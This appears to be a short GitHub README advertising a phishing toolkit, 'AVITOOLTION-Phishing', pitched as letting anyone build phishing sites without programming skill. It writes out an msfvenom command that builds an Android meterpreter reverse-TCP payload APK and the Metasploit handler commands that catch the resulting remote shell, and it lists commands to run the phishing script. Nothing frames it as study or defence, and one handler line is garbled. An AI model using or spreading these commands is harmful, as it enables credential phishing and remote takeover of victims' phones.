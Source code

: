 # AVITOOLTION-Phishing
"Hello my friends, this tool will help you design a phishing site easily without needing much understanding or programming. There are also many features to discover. You should download the tool, and as you do, I thank you very much.

# Payload PDF.py #
" msfvenom -p android/meterpreter/reverse_tcp LHOST=your_IP LPORT=your_PORT -o payload.apk "
" Payload PDF.py "
" use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST your_IPOpen-XAI.py
set LPORT your_PORT
exploit "

# Open-XAI.py #

" python3 chat_ai.py "

# Phishing.py #

" python3 Phishing.py "
